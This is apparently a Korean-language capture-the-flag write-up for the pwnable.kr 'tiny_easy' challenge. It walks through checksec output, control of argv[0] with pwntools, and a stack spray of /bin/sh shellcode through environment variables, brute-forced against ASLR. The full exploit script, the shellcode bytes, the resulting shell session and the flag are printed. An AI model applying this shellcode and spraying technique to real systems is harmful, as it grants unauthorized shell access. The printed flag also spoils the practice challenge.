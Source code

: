 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-17-55-04.png)


# **Write-Up**

파일 정보를 확인해보자.

```sh
tiny_easy@pwnable:~$ checksec tiny_easy
[*] '/home/tiny_easy/tiny_easy'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

실행해보면 Segmentation fault가 난다.

```sh
tiny_easy@pwnable:~$ ./tiny_easy
Segmentation fault (core dumped)
```

뜬금없이 pop pop 이후 edx가 가르키는 주소의 값을 호출하는 코드이다. 그래서 코어 덤프가 일어나는 듯 싶다.

![](images/2022-01-04-17-55-39.png)

[edx]를 가보니 실행파일명(argv[0])의 4byte임을 확인할 수 있다.

![](images/2022-01-04-17-55-46.png)

파일명(argv[0])을 바꾸면 그에 따라 바뀜을 확인할 수 있다.

![](images/2022-01-04-17-55-51.png)

파일 권한에 걸려 파일이름을 바꿀 수는 없지만, pwntools를 이용하면 argv[0]을 조작할 수 있다.

다음의 C 코드를 컴파일하여 test라는 바이너리를 만들자.

```cpp
# test.c
#include <stdio.h>

int main(int argc, char* argv[]){
        printf("my argv[0]\t: %s\n", argv[0]);
	return 0;
}
```

이후 pwntools를 이용하여 argv를 넘겨주면 argv[0]이 test가 아닌 내가 설정한 값이 들어가게 된다.

```python
from pwn import *

p = process(executable="./test", argv=["argv_test"])
print(p.recvline().decode())

[Output]
my argv[0]    : argv_test
```

스택에서 argv[0]다음에는 환경변수(env)값이 있는 것을 확인할 수 있다.

![](images/2022-01-04-17-56-20.png)

env명령어를 쳐서 나온 결과 값과 같다는 것을 확인할 수 있다.

```sh
root@ubuntu:~/pwn# env
SHELL=/bin/bash
PWD=/root/pwn
LOGNAME=root
XDG_SESSION_TYPE=tty
MOTD_SHOWN=pam
... 생략 ...
```

NX bit가 enable이 되어있지 않으므로, stack영역에 shell code를 삽입하고 (env이용) 해당 주소로 점프(argv[0])하면 될 듯하다.

하지만 ASLR이 걸려있어서 stack의 주소는 계속 바뀔것이다.

```sh
tiny_easy@pwnable:~$ cat /proc/sys/kernel/randomize_va_space
2
```

스택의 주소를 대강 살펴보니 0xffxxxxxx로 할당 받는듯 하다.

```sh
tiny_easy@pwnable:~$ gdb -q ./tiny_easy
Reading symbols from ./tiny_easy...(no debugging symbols found)...done.\
(gdb) b * 0x804754
Breakpoint 1 at 0x8048054
(gdb) r
Starting program: /home/tiny_easy/tiny_easy

Breakpoint 1, 0x08048054 in ?? ()
(gdb) x/10x $esp
0xffcc76d0:     0x00000001      0xffcc8dc0      0x00000000      0xffcc8dda
0xffcc76e0:     0xffcc8def      0xffcc8dff      0xffcc8e0a      0xffcc8e2d
0xffcc76f0:     0xffcc8e40      0xffcc8e4f
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/tiny_easy/tiny_easy

Breakpoint 1, 0x08048054 in ?? ()
(gdb) x/10x $esp
0xffec0f70:     0x00000001      0xffec2dc0      0x00000000      0xffec2dda
0xffec0f80:     0xffec2def      0xffec2dff      0xffec2e0a      0xffec2e2d
0xffec0f90:     0xffec2e40      0xffec2e4f
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/tiny_easy/tiny_easy

Breakpoint 1, 0x08048054 in ?? ()
(gdb) x/10x $esp
0xffb429e0:     0x00000001      0xffb42dc0      0x00000000      0xffb42dda
0xffb429f0:     0xffb42def      0xffb42dff      0xffb42e0a      0xffb42e2d
0xffb42a00:     0xffb42e40      0xffb42e4f
```

/bin/sh을 실행하는 shellcode는 다음과 같다.

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

exploit을 작성 후 실행하자.

```sh
tiny_easy@pwnable:~$ mkdir -p /tmp/2honrr_tiny
tiny_easy@pwnable:~$ cd /tmp/2honrr_tiny
tiny_easy@pwnable:/tmp/2honrr_tiny$ vi exploit.py
```

```python
from pwn import *

shellcode = "\x90" * 0x1500 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
argv = [p32(0xffb15fff)]
env = dict()
for i in range(256):
        env[str(i)] = shellcode
for i in range(256):
        p = process(executable='/home/tiny_easy/tiny_easy', argv=argv, env=env)
        try:
                p.sendline('ls')
                p.recvline()
        except:
                p.close()
                continue
        p.interactive()
        break
```

```sh
tiny_easy@pwnable:/tmp/2honrr_tiny$ python exploit.py
... 생략 ...
[*] Switching to interactive mode
$ ls -al
total 722880
drwxrwxr-x  2 tiny_easy tiny_easy      4096 Dec  7 02:25 .
drwxrwx-wt 12 root      root      740204544 Dec  7 02:25 ..
-rw-rw-r--  1 tiny_easy tiny_easy       544 Dec  7 02:25 exploit.py
$ cd /home/tiny_easy/
$ cat flag
What a tiny task :) good job!
```


# **FLAG**

**What a tiny task :) good job!**